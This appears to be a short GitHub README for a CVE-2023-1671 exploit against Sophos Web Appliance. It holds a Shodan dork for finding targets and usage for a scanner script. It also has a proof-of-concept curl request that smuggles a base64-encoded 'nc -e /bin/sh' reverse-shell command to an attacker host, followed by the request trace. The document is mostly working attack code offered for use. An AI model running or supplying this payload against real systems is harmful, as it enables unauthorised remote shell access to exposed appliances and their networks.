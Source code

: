 ## CVE-2023-1671
- Shodan dorks: <br/>
	  title:"Sophos Web Appliance" <br/>
	  
### Usage
      chmod +x scanner.sh
	  ./scanner.sh target.txt
	  
### POC
	  curl -k --trace-ascii % "https://victim_ip_addr/index.php?c=blocked&action=continue" -d "args_reason=filetypewarn&url=$RANDOM&filetype=$RANDOM&user=$RANDOM&user_encoded=$(echo -n "';nc -e /bin/sh attacker_ip_addr 4444 #" | base64)"


	  #snip
	  => Send header, 184 bytes (0xb8)
      0000: POST /index.php?c=blocked&action=continue HTTP/1.1
      0034: Host: 192.168.56.108
      004a: User-Agent: curl/7.88.1
      0063: Accept: */*
      0070: Content-Length: 120
      0085: Content-Type: application/x-www-form-urlencoded
      00b6:
      => Send data, 120 bytes (0x78)
      0000: args_reason=filetypewarn&url=16625&filetype=5831&user=4525&user_
      0040: encoded=JztuYyAtZSAvYmluL3NoIDE5Mi4xNjguNTYuMSA0NDQ0ICM=